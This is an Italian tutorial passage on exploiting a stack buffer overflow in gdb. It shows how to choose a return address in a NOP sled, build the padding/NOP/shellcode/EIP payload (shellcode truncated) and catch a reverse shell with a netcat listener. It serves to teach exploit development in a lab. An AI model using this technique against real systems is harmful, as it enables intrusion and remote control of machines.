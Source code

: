 ## Trovare l'indirizzo di ritorno

Dopo aver verificato che controlliamo ancora l'`EIP` con il nostro `shellcode`, ora abbiamo bisogno di un indirizzo di memoria in cui si trovano le nostre `NOP` per dire all'EIP di saltare ad esso. Questo indirizzo di memoria non deve contenere nessuno dei caratteri difettosi trovati in precedenza.

```shell
# individuiamo due punti:

# dove finiscono gli \x55 e iniziano gli \x90
# dove finiscono gli \x90 ed inizia lo shellcode

# scegliamo un indirizzo di memoria in questo intervallo

(gdb) x/2000xb $esp+1400

```

Dopo aver selezionato un indirizzo di memoria, sostituiamo il nostro "\x66" che sovrascrive l'EIP per dirgli di saltare all'indirizzo scelto, in questo esempio `0xffffd64c`. Si noti che l'inserimento dell'indirizzo viene fatto al contrario.

```shell
   Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841

     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

## Esecuzione

Poiché il nostro codice shell crea una shell inversa, lasciamo che `netcat` ascolti la porta `31337`.

```shell
$ nc -nlvp 31337

```

Dopo aver avviato `netcat`, eseguiamo nuovamente il nostro exploit adattato, che innesca la CPU per connettersi a `netcat`.

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

e nella shell con `netcat` abbiamo la connesione!

# Prevenzione

# Skill Assessment

